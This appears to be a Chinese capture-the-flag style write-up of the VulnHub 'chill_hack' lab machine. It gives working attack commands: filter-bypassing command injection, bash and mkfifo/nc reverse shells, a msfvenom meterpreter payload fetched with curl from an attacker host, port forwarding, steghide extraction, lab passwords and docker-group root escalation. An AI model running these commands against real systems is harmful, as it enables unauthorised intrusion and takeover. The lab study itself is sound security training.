


# chill_hack靶机

## 前言

该靶机为vulnhub上的一个靶机

## 正文

nmap 靶机地址


可以看到开起了三个端口，访问80看看


收集目录



命令执行，发现有过滤


c\at index.php


想直接弹shell发现

```
ba\sh -i >& /dev/tcp/ip/port 0>&1
```

执行不了，监听端没反应，尝试用nc连也连不了，决定用开管道的方式反弹

```
r\m /tmp/m;mkfifo /tmp/m;/bin/sh -i 0</tmp/m|nc ip port >/tmp/m
```

获取shell之后，升级shell变为交互式

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```


升级完成之后找一下敏感文件，当场找到数据库的配置密码，但是扫描端口的时候没发现有数据库开放的端口

```
PDO("mysql:dbname=webportal;host=localhost","root","!@m+her00+@db");
```


翻了一下没其他的了，那么看看能不能提高权限。

sudo -l 发现弹出提示，说明可以执行这个脚本


```sh
echo 
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!" 
echo read -p "Enter the person whom you want to talk with: " person read -p "Hello user! I am $person,  Please enter your message: " msg 
$msg 2>/dev/null 
echo "Thank you for your precious time!"
```

发现也有命令执行的语句，试试看能不能把shell升级成apaar用户，因为这个文件的权限拥有者是apaar，最多也是只能升级为apaar用户，其他用户是不行的。

```
sudo -u apaar /home/apaar/.helpline.sh
```


老方法升级成交互shell。去用户目录下拿到该用户的flag


查看端口开放和连接，发现开启了3306和9001端口，但是只允许本机访问，外网访问不了，打算在meterpreter上线，然后开启端口转发访问一下3306和9001服务


生成elf弹反shell

```
msfvenom -p linux/x86/meterpreter/reverse_tcp lhost=192.168.35.149 lport=4444 -f elf -o shell.elf

curl 192.168.35.149:8000/shell.elf>shell.elf
```


meterspreter开启端口转发，将机器上的9001和3306转发到本机的9002和9003端口进行访问

```
portfwd add -l 9002 -p 9001 -r 127.0.0.1
portfwd add -l 9003 -p 3306 -r 127.0.0.1
```

连接


md5解密https://www.somd5.com/




anurodh

masterpassword

试了一下这个密码，发现ssh连接失败，应该不是这个密码

访问一下9001这个网站，利用账号登录


根据提示说在图片里，找了一下图片隐写的工具steghide

```
steghide extract -sf xxx.jpg
```

提取得到


https://www.shuzhiduo.com/A/MyJxNM8Adn/


解密得到source_code


IWQwbnRLbjB3bVlwQHNzdzByZA==

解密得到：

```
!d0ntKn0wmYp@ssw0rd
```


尝试ssh连接


连接成功，发现anurodh是docker组成员，找了一下docker组提权


尝试一下docker提权

 docker run -v /root:/mnt --rm -it alpine

该docker组提权方法为将本机的/root根目录挂载到容器中的/mnt目录下，然后进入容器里，然后进入/mnt就可以查看到/root目录下的文件了，成功拿到靶机flag，如果是要操作整个系统的话，可以把根目录挂载进去，


可以看到已经拥有写入靶机的权限

也可以启动docker时在末尾添加这条命令

```
chroot /mnt /bin/bash
```

chroot将/mnt作为当前的根目录，然后获得交互shell


**知识点总结**

1. 命令执行
2. 利用开通管道的方式mkfifo反弹shell
3. 反弹到meterperter开启端口转发
4. 图片隐写
5. docker组提权